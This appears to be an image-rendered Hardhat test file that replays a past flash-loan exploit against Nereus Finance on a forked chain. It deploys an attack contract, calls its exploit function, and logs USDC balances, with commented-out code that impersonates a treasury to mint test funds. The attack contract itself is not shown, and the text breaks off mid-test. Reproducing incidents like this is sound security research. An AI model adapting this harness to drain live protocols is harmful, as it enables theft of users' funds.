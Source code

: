 ```ts
import { expect } from 'chai';
import { Contract, Signer } from 'ethers';
import { ethers } from 'hardhat';
import { getAbi } from '../utils/abi';
import { forkFrom } from '../utils/fork';

describe('Nereus Finance Exploit', async () => {
  let attacker: Signer;
  let attackerContract: Contract;
  let usdcContract: Contract;

  const USDC_ADDRESS = '0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E';

  before(async () => {
    // One block before the attack occurred
    await forkFrom(19613452);

    // Get an attacker EOA that we can use
    [attacker] = await ethers.getSigners();

    // Deploy the attacker script
    attackerContract = await (
      await ethers.getContractFactory('NereusFlashLoanAttack', attacker)
    ).deploy();

    const usdc_abi = await getAbi('abis/USDCABI.txt');
    usdcContract = await ethers.getContractAt(usdc_abi, USDC_ADDRESS);

    // NOTE: The code below is used for testing purposes so our flash loan
    // always gets repaid when testing the unfinished exploit.
    //
    // Impersonate the reserve treasury of the contract to send ourselves tokens
    /*const impersonated = await ethers.getImpersonatedSigner(
      '0xb7887fed5e2f9dc1a66fbb65f76ba3731d82341a',
    );

    // We need to send some ETH to the reserve treasury so they can make the
    // transfer transaction. Note the balance has to be in hex for whatever
    // reason. This sends them 5 ETH
    await ethers.provider.send('hardhat_setBalance', [
      '0xb7887fed5e2f9dc1a66fbb65f76ba3731d82341a',
      '0x4563918244f40000',
    ]);

    await usdcContract
      .connect(impersonated)
      .configureMinter(attacker.getAddress(), ethers.utils.parseEther('100000000'));

    await usdcContract
      .connect(attacker)
      .mint(attackerContract.address, ethers.utils.parseUnits('100000000', 6));*/
  });

  it('Exploits successfully', async () => {
    // Run our exploit
    const beforeBalance = await usdcContract.balanceOf(attackerContract.address);
    console.log(`[+] USDC Balance before exploit: ${beforeBalance / 1e6}`);

    await attackerContract.exploit();

    const afterBalance = await usdcContract.balanceOf(attackerContract.address);
    console.log(`[+] USDC Balance after exploit: ${afterBalance / 1e6}`);

```